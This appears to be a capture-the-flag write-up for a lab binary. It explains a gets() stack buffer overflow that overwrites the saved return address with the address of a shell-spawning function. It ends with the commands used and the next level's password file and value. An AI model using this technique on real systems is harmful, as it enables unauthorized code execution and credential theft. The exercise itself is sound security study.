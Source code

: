 solution level1:

-> we disassemble the main and see that space is allocated on the stack and the method gets is called
...
0x08048486 <+6>:	sub    esp,0x50
0x08048489 <+9>:	lea    eax,[esp+0x10]
0x0804848d <+13>:	mov    DWORD PTR [esp],eax
0x08048490 <+16>:	call   0x8048340 <gets@plt>
...

-> from the man of gets:
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.

-> the program has a function called "run", which calls the method system to open a new shell with execution rights

-> we can use the gets method and exploit its vulnerability to buffer overflows. For this, we simply fill the stack until we reach the instruction pointer and replace it with the desired address

-> the buffer is 64 bytes long, and we also have to take into account the stack alignment (8 bytes) and the saved ebp (4 bytes), for a total of 76 bytes

-> so we fill the buffer with 76 bytes, and then add the address of function run, which is 0x08048444 (we reverse to little-endian). This will replace the address in the saved eip with the address of run, effectively calling it when we leave the main

> scp -P 2222 Ressources/run.sh level1@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/overf - | ./level1
> cat /home/user/level2/.pass
> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
